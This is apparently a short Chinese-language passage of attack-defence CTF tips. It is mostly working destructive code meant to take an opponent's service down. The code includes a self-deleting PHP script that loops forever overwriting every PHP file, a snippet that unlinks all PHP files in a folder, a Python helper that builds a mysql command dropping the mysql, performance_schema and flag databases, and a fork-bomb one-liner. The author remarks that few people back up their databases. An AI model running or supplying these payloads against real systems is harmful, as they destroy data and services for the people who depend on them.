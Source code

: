 &emsp;&emsp;杀不死基本凉凉,服务down扣分贼严重,

- 删东西:

```php
<?php
    set_time_limit(0);
    ignore_user_abort(1);
    unlink(__FILE__);
    function getfiles($path){
        foreach(glob($path) as $afile){
            if(is_dir($afile))
                getfiles($afile.'/*.php');
            else
                @file_put_contents($afile,"#Anything#");
                //unlink($afile);
        }
    }
    while(1){
        getfiles(__DIR__);
        sleep(10);
    }
?>

<?php
    set_time_limit(0);
    ignore_user_abort(1);
    array_map('unlink', glob("some/dir/*.php"));
?>
```

&emsp;&emsp;不说了,心里痛...qaq  


- 删库跑路:

```python
#!/usr/bin/env python3
import base64
def rm_db(db_user,my_db_passwd):
    cmd = "/usr/bin/mysql -h localhost -u%s %s -e '"%(db_user,my_db_passwd)
    db_name = ['performance_schema','mysql','flag']
    for db in db_name:
        cmd += "drop database %s;"%db
    cmd += "'"
    return cmd  
```

&emsp;&emsp;这个应该也是杀伤力极强,基本不会有人备份库子...

- fork_bomb  

```sh
#!/bin/sh
/bin/echo '.() { .|.& } && .' > /tmp/aaa;/bin/bash /tmp/aaa;
```
